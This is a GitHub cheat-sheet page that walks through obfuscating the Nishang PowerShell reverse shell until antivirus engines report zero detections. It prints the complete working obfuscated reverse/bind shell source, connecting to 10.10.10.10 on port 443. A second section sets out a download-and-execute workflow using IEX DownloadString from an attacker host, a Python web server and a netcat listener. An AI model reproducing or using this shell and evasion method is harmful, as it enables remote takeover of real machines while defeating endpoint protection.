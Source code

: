 # HOW TO PASS UNDER THE RADAR WITH POWERSHELL

## Actual problem:
Nishang Powershell reverse shell is detected by the most AV. After remote commande execution you will be blocked by end point protections.
This article demonstrate how it is possible to manualy reach the 0 detection with 59 AV engines.

### Base line:
Nishang script is a very nice tool and can be used for Reverse or Bind interactive PowerShell from a target.

![](poc1.png "Initial detection")
<center><b>SCORE :20/59</b></center><br>

### STAGE 1
Remove dev comments, change output error, remove link, synopsis, description, example.

![](poc2.png "stage 1")
<center><b>SCORE :12/59</b></center><br>

### STAGE 2
Change functions names.

![](poc3.png "stage 2")
<center><b>SCORE: 11/59</b></center><br>

### STAGE 3
Change 50% variables names with random strings.

![](poc4.png "stage 3")
<center><b>SCORE: 11/59</b></center><br>

### STAGE 4
Change 90% variables names with random strings.

![](poc5.png "stage 4")
<center><b>SCORE: 3/59</b></center><br>

### STAGE 5
Remove Run as comment, Microsoft motd, change ASCII prompt.

![](poc6.png "stage 5")
<center><b>SCORE: 1/59</b></center><br>

### STAGE 6
Change 95% variables names with random strings.

![](poc7.png "stage 6")
<center><b>SCORE: 0/59</b></center><br>


<center><b>Powershell escape is mainly done by changing function names, variable names, developer comments.</b></center>


### <center>FINAL TEST</center>
![](poc8.png "stage 6")


### <u>POC SOURCE CODE:</u>
```powershell
function Invoke-Shell 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $World,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Country,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    try 
    {
        if ($Reverse)
        {
            $dGtrfokiudfjhvnjfe = New-Object System.Net.Sockets.TCPClient($World,$Country)
        }

        if ($Bind)
        {
            $eDDfh987654567 = [System.Net.Sockets.TcpListener]$Country
            $eDDfh987654567.start()    
            $dGtrfokiudfjhvnjfe = $eDDfh987654567.AcceptTcpClient()
        } 

        $zrt54789dvbgH = $dGtrfokiudfjhvnjfe.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes("Windows PowerShell`nMicrosoft Corporation.`n`n")
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes('$ ' + (Get-Location).Path + '>>')
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        while(($i = $zrt54789dvbgH.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                $Poec56fd345 = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something wrong" 
                Write-Error $_
            }
            $GFGFGBbvbgrefdf  = $Poec56fd345 + 'PS ' + (Get-Location).Path + '> '
            $ggh45RedCzIk = ($error[0] | Out-String)
            $error.clear()
            $GFGFGBbvbgrefdf = $GFGFGBbvbgrefdf + $ggh45RedCzIk

            $sendbyte = ([text.encoding]::ASCII).GetBytes($GFGFGBbvbgrefdf)
            $zrt54789dvbgH.Write($sendbyte,0,$sendbyte.Length)
            $zrt54789dvbgH.Flush()  
        }
        $dGtrfokiudfjhvnjfe.Close()
        if ($eDDfh987654567)
        {
            $eDDfh987654567.Stop()
        }
    }
    catch
    {
        Write-Warning "Something wrong!" 
        Write-Error $_
    }
}

Invoke-Shell -Reverse -world 10.10.10.10 -CountrY 443
```

---
### THE ONE PORT DMZ DL/EXEC ISSUE

Sometime it is not possible to work with 2 ports.

- 1 Webserver to wait Powershell incoming downloaded script
- 1 listener to catch the reverse shell.

:information_source: The trick is to add a timestamp in the reverse shell script loaded in memory.

![](poc9.png "DMZ DL/EXEC ISSUE")


##### MODIFICATION PART:

```powershell
}
---SNIP---
Start-Sleep -s 10
Invoke-Shell -Reverse -world 10.10.10.10 -CountrY 443
```

##### PROCESS
- Open your python webserver on 443
```bash
python -m SimpleHTTPServer 443
```
- Perform your remote command execution
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://attackerip/revshell.ps1')"
```
- Target server download, load in memory and exec the script
- Stop your server
```bash
Ctrl+C
```
- Open your netcat listener on port 443
```bash
nc -lvnp 443
```
- Wait few seconds
- Get your reverse shell

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)